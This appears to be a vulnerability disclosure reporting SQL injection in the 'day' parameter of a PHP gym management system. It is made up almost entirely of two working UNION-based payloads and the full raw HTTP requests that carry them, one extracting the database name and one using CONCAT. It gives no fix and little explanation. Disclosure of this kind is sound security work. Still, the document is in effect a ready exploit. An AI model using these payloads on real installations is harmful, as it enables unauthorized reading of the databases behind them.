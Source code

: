 # Gym Management System by pushpam02 has SQL injection
BUG_Author：Haerqi

vendors: https://www.sourcecodester.com/php/15515/gym-management-system-project-php.html

Vulnerability File: /MyGym/index.php?day=

Vulnerability location: /MyGym/index.php?day=, day

dbname = mygym

[+] Payload: day=1' union all select null,null,null,null,database(),null-- - // Leak place ---> day

```
GET /MyGym/index.php?day=1%27%20union%20all%20select%20null,null,null,null,database(),null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=8f610c644qbb1o5rqrul2l2d14
Connection: close
```

![image](https://github.com/Haerqi/sqlpic/blob/main/sqlDatabase.png)

[+] Payload: day=1' union all select null,null,null,null,CONCAT(0x61626364,0x51525354,0x71727374),null-- - // Leak place ---> day

```
GET /MyGym/index.php?day=1%27%20union%20all%20select%20null,null,null,null,CONCAT(0x61626364,0x51525354,0x71727374),null--%20- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=8f610c644qbb1o5rqrul2l2d14
Connection: close
```

![image](https://github.com/Haerqi/sqlpic/blob/main/sqlConcat.png)


